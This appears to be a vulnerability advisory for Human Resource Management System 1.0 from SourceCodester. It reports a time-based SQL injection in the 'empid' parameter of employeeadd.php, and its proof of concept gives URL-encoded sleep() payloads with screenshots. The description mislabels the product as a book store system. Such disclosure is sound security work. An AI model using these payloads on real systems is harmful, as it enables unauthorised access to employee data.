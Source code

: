 # Human Resource Management System 1.0 SQL Injection

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A SQL Injection vulnerability in /hrm/employeeadd.php with `empid` handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeadd.php

Analysis source code: `empid` Handler has been not validation from user.

![](images/empid.png)

Proof of Concept:

Login as admin and go to `http://localhost/hrm/employeeadd.php`

Payload SQLi with sleep(1): /hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-

![](images/sqli-sleep-1.png)

Payload SQLi with sleep(10): /hrm/employeeadd.php?empid=1%27%20or%20sleep(10)%20--%20-

![](images/sqli-sleep-10.png)

Check payload at MySQL log:

![](images/mysql-log.png)

#### Discoverer(s)/Credits: NGO VAN TU (@leecybersec)